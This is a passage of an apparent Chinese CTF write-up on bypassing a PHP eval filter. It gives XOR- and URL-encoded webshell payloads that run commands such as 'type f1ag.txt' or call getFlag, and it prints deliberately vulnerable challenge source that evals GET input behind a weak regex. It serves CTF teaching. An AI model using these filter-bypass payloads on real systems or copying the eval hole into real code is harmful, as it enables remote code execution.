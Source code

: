 ```php
?><?=`{${_GET}[_]}`?>
即：
?><?=`{${"!'%("^"~``|"}[%a0]}`?>
编码:(使用php脚本urlencode()函数编码，hackbar有问题)
?><?=`{${"%21%27%25%28"^"%7e%60%60%7c"}[%a0]}`?>&%a0=type f1ag.txt

?code=?><?=`{${"%21%27%25%28"^"%7e%60%60%7c"}[%a0]}`?>&%a0=type f1ag.txt
```

![image-20231019230419487](assets/image-20231019230419487.png)

### 解法三

解法一和解法二属于威力大，可直接任意代码执行。但在此题中由于有hint的存在，我们可以不必任意代码执行，而只是执行getFlag()即可。
 利用异或，有Payload:

```php
?code=${"`{{{"^"?<>/"}['+']();&+=getFlag

即：?code=${_GET}['+']();&+=getFlag
```

同样利用取反也可以执行代码，不再赘述。

## 题目二：限制长度35+禁用$和_符号

```php
<?php 
include 'flag.php';
if(isset($_GET['code']))
{
    $code=$_GET['code'];
    if(strlen($code)>35){
    die("Long.");
    }
    if(preg_match("/[A-Za-z0-9_$]+/",$code))
    {
        die("NO.");
    }
    @eval($code);
}
else
{
    highlight_file(__FILE__);
}
//$hint="php function getFlag() to get flag";
?>
```
